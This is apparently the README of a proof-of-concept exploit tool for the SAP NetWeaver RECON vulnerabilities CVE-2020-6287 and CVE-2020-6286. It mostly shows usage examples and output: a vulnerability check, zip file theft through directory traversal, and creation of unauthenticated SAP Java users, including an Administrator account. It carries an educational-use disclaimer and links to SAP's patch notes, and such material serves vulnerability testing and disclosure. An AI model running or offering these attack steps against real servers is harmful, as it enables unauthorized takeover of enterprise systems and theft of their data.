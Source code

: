 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as a PoC script exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: 

CVE-2020-6287: [Pablo Artuso](https://twitter.com/lmkalg)<br>
CVE-2020-6286: [Yvan 'iggy' G.](https://twitter.com/_1ggy) 

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server
3. `-u` - create user SAP JAVA user with  `Authenticated User` role 
4. `-a` - create user SAP JAVA user with  `Administrator` role


Ex.: Download zip file

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```


Ex.: Create SAP JAVA user

```
~python RECON.py -H 172.16.30.8 -u
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user. sapRpoc5484:Secure!PwD9379
Ok! User were created
```

Ex.: Create SAP JAVA Administrator user

```
~python RECON.py -H 172.16.30.8 -a
Check1 - Vulnerable! [CVE-2020-6287] (RECON) - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Going to create new user sapRpoc5574:Secure!PwD7715 with role 'Administrator'
Ok! Admin user were created
```

## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-p PROXY] [-s] [-c] [-f ZIPFILE]
                [-u] [-a] [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287,  (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding:
- Pablo Artuso. https://twitter.com/lmkalg
- Yvan 'iggy' G https://twitter.com/_1ggy

Thanks:
- Spencer McIntyre https://twitter.com/zeroSteiner

Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -p PROXY, --proxy PROXY
                        Use proxy (ex: 127.0.0.1:8080)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  -u, --user            Create simple JAVA user. CVE-2020-6287
  -a, --admin           Create JAVA user with role "Administrator". CVE-2020-6287
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```
